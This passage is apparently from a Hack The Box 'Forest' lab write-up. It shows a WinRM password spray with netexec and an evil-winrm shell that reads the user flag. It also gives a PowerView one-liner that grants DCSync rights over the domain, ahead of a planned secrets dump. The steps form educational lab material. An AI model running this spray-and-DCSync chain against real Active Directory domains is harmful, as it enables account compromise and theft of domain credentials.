 - I tried the same on WinRM service and guess what, Bingo! Got winrm access. Even if I got any hit on other accounts earlier it would have been hectic to pivot, hey! anyway less steps to work. 
```
❯ netexec winrm htb.local -u users.txt -p 's3rvice' --continue-on-success  
WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\Administrator:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\krbtgt:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\sebastein:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\lucinda:s3rvice
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\andy:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\mark:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\santi:s3rvice
```
- Got the {{< keyword >}} User flag {{< /keyword >}}
```
❯ evil-winrm -u svc-alfresco -p s3rvice -i htb.local                            
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type ../Desktop/user.txt
<redacted>
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```
- ## Privilege escalation
- Now using the user account `svc_alfresco` I collected data for Bloodhound
- ![Bloodhound picture](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250114004642.png?raw=true)
- As we can see from the above picture we have `genericAll` and `writeDACL` to abuse. We can use the steps from Bloodhound it's pretty neat.
- Invoking powerview within the shell
```shell
Import-Module .\powerview.ps1
```
- This is the one liner
```shell
 Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
- Atlast I can run secrets dump to dump all those secrets 
